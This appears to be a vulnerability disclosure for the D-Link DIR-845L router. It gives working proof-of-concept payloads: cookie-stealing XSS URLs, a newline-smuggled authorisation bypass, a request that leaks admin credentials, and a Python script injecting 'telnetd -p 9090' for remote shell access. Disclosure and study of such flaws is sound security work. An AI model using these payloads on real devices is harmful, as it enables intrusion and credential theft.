 # DIR-845L Vulnerabilities

## Summary

**Vendor** : D-Link

**Product** : DIR-845L Router

**Firmware Link** : You can download firmware at ([https://www.mydlink.co.kr/2013/beta_board/product_detail.php?no=146&amp;model=DIR-845L](https://www.mydlink.co.kr/2013/beta_board/product_detail.php?no=146&model=DIR-845L))![1712906917761](image/poc/1712906917761.png)


### Vulnerabilities Summary

+ **XSS**
+ **Permission bypass**
+ **Information disclosure**
+ **Command injection**

### XSS

+ /htdocs/webinc/js/bsc_sms_inbox.php line: 17
  + var get_Treturn = '`<?if($_GET["Treturn"]=="") echo "0"; else echo $_GET["Treturn"];?>';`
+ The parameter **$_GET["Treturn"]** has no filter.So the poc:
  + http://192.168.0.1/bsc_sms_inbox.php?Treturn=1';alert(document.cookie)![1712899623187](image/poc/1712899623187.png)
+ /htdocs/webinc/js/info.php line:27 -30 same problem poc:
  + http://192.168.0.1/info.php?RESULT=",msgArray);alert(document.cookie);//![1712899687559](image/poc/1712899687559.png)

### Permission bypass

+ /htdocs/web/getcfg.php line:83-94
+ ```php
  function is_power_user()
  {
  	if($_GLOBALS["AUTHORIZED_GROUP"] == "")
  	{
  		return 0;
  	}
  	if($_GLOBALS["AUTHORIZED_GROUP"] < 0)
  	{
  		return 0;
  	}
  	return 1;
  }
  ```
+ We can see the `$_GLOBALS["AUTHORIZED_GROUP"]` need to be greater than 0 and not a null.

  Phpcgi is a symbolic link to cgibin. Phpcgi is responsible for processing requests to .php, .asp and .txt pagesIt can be 	through URL, HTTP head or POST request sent by body data analysis.The phpcgi will create a long string, and the string will be treated as a series of key value pairs, and are used in `$_GET, $_POST and $_SERVER` dictionary and PHP script variable.Nevertheless, if a request is crafted in a proper way, an attacker can easily bypass authorization.

  Each of the key values pairs is encoded in the following form: _TYPE_KEY = VALUE, where TYPE can be GET, POST, or SERVER. Next, the key value pairs are connected using the branch character '\n'. In this way, we can build a packet by itself to bypass some permission validation.Such like this:

`	xxx=%0a_POST_AUTHORIZED_GROUP%3d1`

### Information disclosure

+ /htdocs/web/getcfg.php line:94-147/htdocs/web/web/web.php line：94-147
  ```php
  if ($_POST["CACHE"] == "true")
  {
  	echo dump(1, "/runtime/session/".$SESSION_UID."/postxml");
  }
  else
  {
  	if(is_power_user() == 1)
  	{
  		/* cut_count() will return 0 when no or only one token. */
  		$SERVICE_COUNT = cut_count($_POST["SERVICES"], ",");
  		TRACE_debug("GETCFG: got ".$SERVICE_COUNT." service(s): ".$_POST["SERVICES"]);
  		$SERVICE_INDEX = 0;
  		while ($SERVICE_INDEX < $SERVICE_COUNT)
  		{
  			$GETCFG_SVC = cut($_POST["SERVICES"], $SERVICE_INDEX, ",");
  			TRACE_debug("GETCFG: serivce[".$SERVICE_INDEX."] = ".$GETCFG_SVC);
  			if ($GETCFG_SVC!="")
  			{
  				$file = "/htdocs/webinc/getcfg/".$GETCFG_SVC.".xml.php";
  				/* GETCFG_SVC will be passed to the child process. */
  				if (isfile($file)=="1")
  				{
  					if(get("", "/runtime/device/sessions_privatekey")==1)
  					{
  						AES_Encrypt_DBnode($GETCFG_SVC, "Encrypt");
  						dophp("load", $file);
  						AES_Encrypt_DBnode($GETCFG_SVC, "Decrypt");
  					}
  					else
  					{	dophp("load", $file);}
  				}
  			}
  			$SERVICE_INDEX++;
  		}
  	}
  	else
  	{
  		/* not a power user, return error message */
  		echo "\t<result>FAILED</result>\n";
  		echo "\t<message>Not authorized</message>\n";
  	}
  }
  ```
+ We can see `dophp("load", $file)`, the function like a `include()` .
+ The variable `$file`  is made up of `$GETCFG_SVC`, then `$GETCFG_SVC` comes from `$_POST["SERVICES"]`, there is also no filter,so we can control the variable `$file` , and the permission validation is_power_user() can be bypassed by last trick. In this way,we can include any other php scripts to get some important informations,such like DEVICE.ACCOUNT.xml.php, it returns a username and password to a router,then we can login in the router.
+ poc
  + http://192.168.0.1/getcfg.php?a=%0a_POST_SERVICES%3DDEVICE.ACCOUNT%0aAUTHORIZED_GROUP%3D1
  + response(password is empty)
  + ![1712900106005](image/poc/1712900106005.png)

### Command injection

+ vlun in hnap_main()func
  + v0 = strrchr("http://purenetworks.com/HNAP1/GetDeviceSettings", 47);
  + Can be noticed, however, STRSTR used in string check, which suggests that the SOAPAction header just includes the http://purenetworks.com/HNAP1/GetDeviceSettings string, can through the inspection, to bypass the authentication.
    So, if SOAPAction header contains the string http://purenetworks.com/HNAP1/GetDeviceSettings, The code resolves the name of the Action (such as GetDeviceSettings) from the request header and removes the double quotation marks at the end of the string
+ also could cause CSRF but command injection is critical
+ poc
+ ```python
  import socket
  import struct

  buf = "POST /HNAP1/ HTTP/1.0\r\nHOST: 192.168.0.1\r\nUser-Agent: test\r\nContent-Length: 1\r\nSOAPAction:http://purenetworks.com/HNAP1/GetDeviceSettings/" + ';echo "success" > mytest.php;telnetd -p 9090;test\r\n' + "1\r\n\r\n"

  print "[+] sending buffer size", len(buf)
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect(("192.168.0.1", 80))
  s.send(buf)
  ```
+ ![1712902459101](image/poc/1712902459101.png)

